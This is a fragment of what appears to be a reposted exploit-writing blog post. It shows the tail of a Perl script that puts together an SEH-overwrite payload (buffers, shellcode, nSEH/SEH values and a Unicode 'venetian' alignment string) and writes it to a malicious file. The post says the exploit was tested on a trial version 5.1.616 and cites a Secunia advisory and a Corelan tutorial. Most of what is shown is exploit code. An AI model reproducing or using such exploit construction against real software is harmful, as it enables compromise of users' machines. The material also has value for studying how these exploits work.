 "i3rWKOFpA";</pre>
<pre>my $exp = $buf1 . $shellcode . $buf2 . $nseh . $seh . $venetian . $buf3;</pre>
<pre>open($FILE,"&gt;$file");
print $FILE $exp;
close($FILE);
print "pls File Created successfully\n";</pre>
&nbsp;

This exploit has been tested on the trial version 5.1.616.

References:

[http://secunia.com/advisories/35361/](http://secunia.com/advisories/35361/)
[http://msdn.microsoft.com/en-us/library/dd374081.aspx](http://msdn.microsoft.com/en-us/library/dd374081.aspx)
[http://www.corelan.be/index.php/2009/11/06/exploit-writing-tutorial-part-7-unicode-from-0×00410041-to-calc/](http://www.corelan.be/index.php/2009/11/06/exploit-writing-tutorial-part-7-unicode-from-0x00410041-to-calc/)

转自：[http://www.greyhathacker.net/?p=307](http://www.greyhathacker.net/?p=307)